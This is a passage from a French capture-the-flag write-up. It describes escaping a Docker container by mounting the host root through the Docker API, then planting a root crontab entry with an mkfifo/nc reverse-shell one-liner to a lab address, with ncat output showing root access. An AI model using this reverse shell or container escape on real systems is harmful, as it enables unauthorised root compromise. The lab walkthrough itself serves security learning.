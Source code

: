La dernière étape (ci dessus) demande un peu de préparation puisqu'il faut coller la requête HTTP avec l'ID du container sur l'entrée standard. Il aura aussi fallut rappatrier un `socat` compilé statiquement (ça se trouve sur Github).

La seconde commande cURL génère un container à partir de l'image Docker Ubuntu trouvée dans l'output de la première commande. Parmi les options de la création du container il y a les points de montage qui indiquent de monter la racine de l'hôte dans le dossier `/host_root` du container. C'est pour cela que je trouve le vrai flag à l'intérieur.

Pour aller plus loin et obtenir un vrai shell je peux ajouter une entrée crontab dans l'hôte (par exemple dans `/var/spool/cron/crontabs/root` ):

```bash
* * * * *  bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.1 80 >/tmp/f
```

Cette fois ça marche. J'ai juste la sortie standard qui ne s'affiche pas mais je peux l'obtenir en la redirigant vers le flux d'erreur :

```shellsession
$ ncat -l -p 80 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.56.80.
Ncat: Connection from 192.168.56.80:60282.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname

# ip addr

# ip addr 1>&2
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:ec:32:a5 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.80/24 brd 192.168.56.255 scope global dynamic enp0s3
       valid_lft 513sec preferred_lft 513sec
    inet6 fe80::a00:27ff:feec:32a5/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:7a:53:21:ca brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:7aff:fe53:21ca/64 scope link 
       valid_lft forever preferred_lft forever
5: vethf29bea2@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether ee:48:b8:89:39:18 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::ec48:b8ff:fe89:3918/64 scope link 
       valid_lft forever preferred_lft forever
7: veth69428f3@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether 16:b6:c6:76:1e:f9 brd ff:ff:ff:ff:ff:ff link-netnsid 1
    inet6 fe80::14b6:c6ff:fe76:1ef9/64 scope link 
       valid_lft forever preferred_lft forever
```
